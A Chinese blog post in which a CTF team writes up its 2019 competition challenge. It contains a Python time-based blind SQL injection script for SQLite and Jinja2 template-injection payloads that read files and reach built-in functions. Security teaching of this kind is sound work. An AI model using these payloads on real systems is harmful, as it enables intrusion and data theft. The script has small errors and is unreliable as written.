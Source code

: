 ```yaml
---
title: 2019信安国赛出题经历
date: 2019-06-05 15:22:45
categories: [Code]
tags:
    - Python
    - 数据库
---
```


## 前言
* 无力吐槽的信安国赛，段子乎喷了上届比赛有多坑，感觉这届也不差啊？
* 算了，我知道是我太菜。

---
* 本博客记录了一篇2019信安国赛复赛本队出题的一些经历。包括题目思路，搭建方法，以及writeup。
* 尽管我们没有最后参加复赛，但是也发现出题是一个很好的锻炼方式。

![](1.jpeg)

<!--more-->

## MORE

* 题目名称：不仅仅是个SQL
* 出题人：CC from nothing

### POINTS
1. 基于SQLITE数据库的盲注
2. 基于jinja2模板注入漏洞的任意代码执行漏洞

### WRITEUP
![](2.jpg)
* 打开网站首先看到的是一个登陆界面

![](1.jpg)
* 照例查看一下网站的robots.txt看一下有没有什么可以发现的。
* robots.txt中是网站登陆认证逻辑的源码，可以看出后算是使用python编写，数据库为sqlite。并对用户输入进行了过滤。

![](2.jpg)
* 输入常用payload发现没有任何回显，所以这里需要盲注
* sqlite3数据库的盲注是采用randomblob()函数
    randomblob()函数生成指定长度的随机字符串。当这个长度足够大的时候就会让服务器产生明显的延迟。这样就可以判断语句的执行成功与否。
* 经过多次尝试发现后端过滤了小写的select，from等关键词。于是采用如图所示的方式注入
* 我们编写了如下脚本来注入获取密码

```
def sqlpw(url):
session=requests.Session()
params={"password":"0"}
password=""
for i in range(32):
    for x in "0123456789abcdefghijklmnopqrstuvwsyz":
        try:
            username="admin'AND(SELECT(hex(substr(password,{},1)))FROM(users))=hex('{}')AND(randomblob(1000000000))--".format(i+1,x)
            params['username']=username
            # print(params)
            r=session.post(url,data=params,timeout=1)
            # print(r.status_code)
        except exceptions.Timeout:
            password=password+x
            logging.info(password)
            sleep(3)
            break
return password
```
* 运行脚本之后我们就获取到了密码的md5值，利用网上很多的md5查询库便可以得到密码原文

![](3.jpg)
* 使用用户名密码登陆成功之后出现如上的欢迎界面。检查网页源码发现flag位于根目录下
* 这里的鸟居图片既是另一个提示。jinja2项目的LOGO
![](4.png)

![](4.jpg)
* 从URL传入参数username入手写入测试payload验证漏洞存在

![](5.jpg)
* 经过测试发现注入点过滤方括号，于是构成如图所示payload完成注入获得flag

## Jinja2模板注入漏洞
* Jinja2漏洞最早出现在py2的版本上。
* 漏洞原理基本就是传入的url中如果包含python脚本也是会被模板解析的。因为模板能够访问python内置变量以及变量方法。
* 注意python2和python3存在差别在类层结构上存在差别

```
__class__   返回调用参数类型
__base__    返回基类
__mro__     允许我们在当前Python环境下追溯继承树
__subclasses__()    返回子类
```


1. 获取基类
    
    首先通过str，dict，tuple，list等类型来获取python的基本类（因为python万物皆对象）你也可以通过一些其它jinja2已经导入的包来获取基类

    ```
    python3:
    ''.__class__.__base__
    [].__class__.__base__
    requests.__class__.__base__

    python2:
    ''.__class__.__mro__[2]
    [].__class__.__base__
    requets.__class__.__mro__[8]
    ```

    获取基类的方法可以在python命令行中输入尝试
    
    **如果题目对中括号做了限制，也可以通过__getitem__(2)函数绕过限制**

1. 读取文件

    **以下基类通过object代替**
    
    ```
    python2：
    object.__subclasses__()[40]('/etc/password
    ').read()
    //获取file类读文件
    ```

    python3中要复杂的多，首先是python3的类层结构和python2下相比会复杂的多。其次python3的类必须经过初始化等等操作才可以使用其内建函数

    ```
    python3:
    object.__subclasses__()[78].__init__.__globals__.__builtins__.open("./flag.txt",encoding="utf-8").read()
    ```

    python3中我们获取子类列表之后随便选择一个类，查看其__init__
    ```
    <slot wrapper '__init__' of 'object' objects>
    ```
    wrapper是指这些函数没有被重载。这是他们并不是function，并不具有___globals__属性。我们在多尝试几个子类就可以找到一个被__init__的类，比如。接下来就可以使用内置函数执行命令。

以上都只是最基础的操作，jinja2模板注入还有很多其他操作需要更多的尝试理解才可以完成。

## 后记

* 这次比赛真是一个很不愉快的体验。这个题目出题到写博客也隔了很久。所以有些细节在本博客中可能描述的很不清楚。（总之这篇博客很垃圾就是了）在图书馆办公室一边修理爬虫一边跑着爬虫利用闲暇之余写出来的博客真的质量不高令人堪忧。总之就这样吧，感谢阅读。




